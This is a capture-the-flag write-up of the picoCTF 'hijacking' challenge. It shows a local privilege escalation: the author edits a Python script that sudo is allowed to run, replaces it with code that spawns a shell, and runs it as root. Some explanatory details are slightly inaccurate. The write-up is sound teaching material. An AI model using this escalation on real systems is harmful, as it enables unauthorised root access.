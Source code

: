 # Challange Info

Name : hijacking

Difficulty : Medium

Category : Binary Exploitation

Link : https://play.picoctf.org/practice/challenge/352?category=6&page=2

(Note : I will suggest look for other writeups as well. As this is not intended way to solve the challange. The intended writeup will help with understanding working of python and it's libraries better.)

Suggested writeup : https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/hijacking/hijacking.md

# Writeup

The challange provides SSH details.

Logging in via ssh.

```bash
ssh picoctf@saturn.picoctf.net -p 60826
```

Listing all files in home directory.

```bash
ls -al
```

The file which caught my eye was .server.py.

> -rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py

But as it's not writeable if we try to edit the file it will drop to picoctf user from root.

So we check if picoctf is allowed to run commands as sudo.

```bash
sudo -l
```

> User picoctf may run the following commands on challenge:
> 
>    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

We can run the python file as sudo.

Using vim to edit the file.

```bash
vim .server.py
```

Replacing file contents with following :

```python
import os
os.system("/bin/sh")
```

(Note : We have to use vim as it allows file to drop from root to picoctf and nano is not avalaible on the server)

In order to exit vim.

```bash
wq!
q!
```

This will give error but when we quit vim we'll get the file dropped from root to picoctf user it dosen't matter as we can anyway run the file as root user via sudo.

Running the python script as sudo. 

(Note : That the allowed config uses relative path for .server.py so we also have to do the same or it'll give us error that we are not allowed to execute the file. For python3 it gets the relative path from PATH variable.)

```bash
sudo python3 /home/picoctf/.server.py
```

We get root shell.

Navigating to /root and listing all files.

```bash
cd /root
ls -al
```

> -rw-r--r-- 1 root root   43 Sep 26 19:29 .flag.txt
